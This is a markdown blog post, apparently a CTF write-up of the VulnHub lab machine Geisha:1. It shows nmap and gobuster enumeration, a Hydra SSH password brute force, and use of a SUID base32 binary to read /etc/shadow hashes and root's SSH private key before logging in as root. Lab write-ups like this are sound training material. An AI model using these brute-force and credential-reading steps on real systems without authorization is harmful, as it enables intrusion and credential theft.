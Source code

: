 ```yaml
---
title: Geisha:1 - Writeup
author: Elman Alizadeh
date: 2022-05-31 20:10:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, geisha]
---
```


Today we will take a look at Vulnhub: Geisha: 1. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-geisha/1.jpeg" | relative_url }})

## Network scan

```console
nmap -p- -sV -sC --open 192.168.215.82
PORT     STATE SERVICE        VERSION
21/tcp   open  ftp            vsftpd 3.0.3
22/tcp   open  ssh            OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1b:f2:5d:cd:89:13:f2:49:00:9f:8c:f9:eb:a2:a2:0c (RSA)
|   256 31:5a:65:2e:ab:0f:59:ab:e0:33:3a:0c:fc:49:e0:5f (ECDSA)
|_  256 c6:a7:35:14:96:13:f8:de:1e:e2:bc:e7:c7:66:8b:ac (ED25519)
80/tcp   open  http           Apache httpd 2.4.38 ((Debian))
|_http-title: Geisha
|_http-server-header: Apache/2.4.38 (Debian)
3389/tcp open  http           nginx 1.14.2
|_http-title: Seppuku
|_http-server-header: nginx/1.14.2
7080/tcp open  ssl/empowerid?
|_ssl-date: TLS randomness does not represent time
|_http-title: Did not follow redirect to https://192.168.215.82:7080/
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
| ssl-cert: Subject: commonName=geisha/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-09T14:01:34
|_Not valid after:  2022-05-09T14:01:34
7125/tcp open  http           nginx 1.17.10
|_http-title: Geisha
|_http-server-header: nginx/1.17.10
8088/tcp open  http           LiteSpeed httpd
|_http-title: Geisha
|_http-server-header: LiteSpeed
9198/tcp open  http           SimpleHTTPServer 0.6 (Python 2.7.16)
|_http-title: Geisha
|_http-server-header: SimpleHTTP/0.6 Python/2.7.16
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster

Command: gobuster dir -u http://192.168.215.82:7125/-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .html,.php,.txt

```console
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.215.82:7125/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt,
[+] Timeout:                 10s
===============================================================
2022/05/31 19:16:15 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 175]
/shadow               (Status: 403) [Size: 154]
/passwd               (Status: 200) [Size: 1432]
```

Url: http://192.168.215.82:7125/passwd

This is what we encounter when we go to Url

![Desktop View]({{ "/assets/img/vuln-geisha/2.png" | relative_url }})

```console
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
geisha:x:1000:1000:geisha,,,:/home/geisha:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lsadm:x:998:1001::/:/sbin/nologin
```

```console
$ cat passwd | grep home

geisha:x:1000:1000:geisha,,,:/home/geisha:/bin/bash
```

## Hydra

I attacked with Hydra. I have a geisha as a user. It didn’t work the first time I attacked ftp. Then I decided to attack ssh.

```console
└─$ hydra -l geisha -P /usr/share/wordlists/rockyou.txt ssh://192.168.215.82:22
[DATA] attacking ssh://192.168.215.82:22/
[22][ssh] host: 192.168.215.82   login: geisha   password: letmein
1 of 1 target successfully completed, 1 valid password found
```

## Root

```console
geisha@geisha:~$ find / -perm -u=s 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/umount
/usr/bin/su
/usr/bin/chsh
/usr/bin/base32
/usr/bin/sudo
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/mount
```

[GFTO_base32](https://gtfobins.github.io/gtfobins/base32/)

### /etc/shadow

I wanted to break the hash in the /etc/shadow file, so I’ll use John.

```console
geisha@geisha:~$ LFILE=/etc/shadow
geisha@geisha:~$ base32 "$LFILE" | base32 --decode
root:$6$3haFwrdHJRZKWD./$LYiTApGClgwmFE3TXMRtekWpGOY6fSpnTorsQL/FBr9YdOW4NHMzYFkOLu8qJQVa1wqfEC3a.SZeTHIyEhlPF0:18446:0:99999:7:::
daemon:*:18385:0:99999:7:::
bin:*:18385:0:99999:7:::
sys:*:18385:0:99999:7:::
sync:*:18385:0:99999:7:::
games:*:18385:0:99999:7:::
man:*:18385:0:99999:7:::
lp:*:18385:0:99999:7:::
mail:*:18385:0:99999:7:::
news:*:18385:0:99999:7:::
uucp:*:18385:0:99999:7:::
proxy:*:18385:0:99999:7:::
www-data:*:18385:0:99999:7:::
backup:*:18385:0:99999:7:::
list:*:18385:0:99999:7:::
irc:*:18385:0:99999:7:::
gnats:*:18385:0:99999:7:::
nobody:*:18385:0:99999:7:::
_apt:*:18385:0:99999:7:::
systemd-timesync:*:18385:0:99999:7:::
systemd-network:*:18385:0:99999:7:::
systemd-resolve:*:18385:0:99999:7:::
messagebus:*:18385:0:99999:7:::
sshd:*:18385:0:99999:7:::
geisha:$6$YtDFbbhHHf5Ag5ej$3EjLFKW1aSNBlfAhcyjmY97eLrNtbzDWQ9z5YvSvuA65kH7ZgHR1f9VGFhAEGGqiKAtF8//U45M8QOHouQrWb.:18494:0:99999:7:::
systemd-coredump:!!:18385::::::
ftp:*:18391:0:99999:7:::
```

### John

It did not work. Then let’s check to get the id_rsa file.

```console
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:01:14 0.44% (ETA: 00:08:23) 0g/s 1004p/s 1004c/s 1004C/s prince5..mirko
Session aborted
```

### id_rsa

```console
geisha@geisha:~$ LFILE=/root/.ssh/id_rsa

geisha@geisha:~$ base32 "$LFILE" | base32 --decode
-----BEGIN RSA PRIVATE KEY-----
))))))))))))))))))))))))))))))))))))))))))
-----END RSA PRIVATE KEY-----
```
In local machine

```console
$ nano root

$ chmod 600 root

$ ssh root@192.168.215.82 -i root
```
![Desktop View]({{ "/assets/img/vuln-geisha/3.png" | relative_url }})

### And now we are the root

![Desktop View]({{ "/assets/img/vuln-geisha/4.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”